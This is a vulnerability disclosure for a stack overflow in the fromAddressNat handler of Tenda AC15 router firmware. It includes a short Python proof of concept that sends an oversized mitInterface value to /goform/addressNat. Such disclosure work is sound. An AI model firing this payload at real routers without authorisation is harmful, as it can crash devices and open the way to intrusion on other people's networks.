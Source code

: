 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `fromAddressNat` function. The `v8` variable receives the `mitInterface` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v8` can trigger this security vulnerability.

![image-20240314180844765](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314180844765.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addressNat"
payload = b"a"*1000

data = {"mitInterface": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314180825277.png)
